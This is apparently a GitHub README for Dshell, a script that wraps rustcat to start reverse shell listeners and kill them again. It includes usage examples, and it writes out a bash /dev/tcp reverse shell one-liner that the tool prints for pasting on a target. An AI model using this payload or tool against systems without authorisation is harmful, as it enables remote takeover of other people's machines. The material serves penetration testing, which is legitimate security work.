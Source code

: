 # Dshell

<br>

![](/Video/dshell.gif)

> "A reverse shell shows that true control comes when the target reaches back willingly."

**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).

<br>

## Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.

<br>

## Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.

<br>

## Usage

### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```

### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.

<br>

### Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
